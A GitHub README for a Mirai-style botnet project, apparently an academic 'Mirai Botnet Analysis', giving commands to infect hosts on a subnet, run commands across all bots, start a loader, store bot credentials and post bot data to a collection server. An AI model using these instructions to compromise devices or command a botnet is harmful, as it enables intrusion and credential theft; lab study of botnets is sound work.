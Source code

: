 # MiraiBotNet

## prerequisites

 - mongoDB 
 - pip

```bash
# chmod +x init.sh
# ./init.sh
# cd botnet/
# pip install -r requirement.txt  
```
## Usage 

### To get the bots
```bash
# cd botnet/
# ./run.sh <ip> 
  eg:- # ./run.sh 192.168.31.X 
```

### To run the command accross all the bots
```bash
# cd botnet/
# ./command.sh <cmd> 
  eg:- # ./command.sh "ls;ping www.google.com"
```
## Loader

### To add a package:
```bash
# cd loader/getDependencies
```
#####  Add the package name to packages.txt
##### Run : 
```bash
# python3 getter.py
```
##### Dependencies will be added to neededDependencies.txt

### To start loader:
```bash
# cd loader/install
# python3 installer.py &
```
##### Logs will be present at logs/loader.log

## Information
### userPassIPFile.txt file contains the IP,Username,Password of the bots. 
 
### to get data from bots
```
curl --header "Content-Type: application/json" --request POST --data '{"ip":"192.168.31.254","data":"this is data entered bla"}' http://192.168.31.32:5000/receiveData
```


PW20RJS01 - Mirai Botnet Analysis
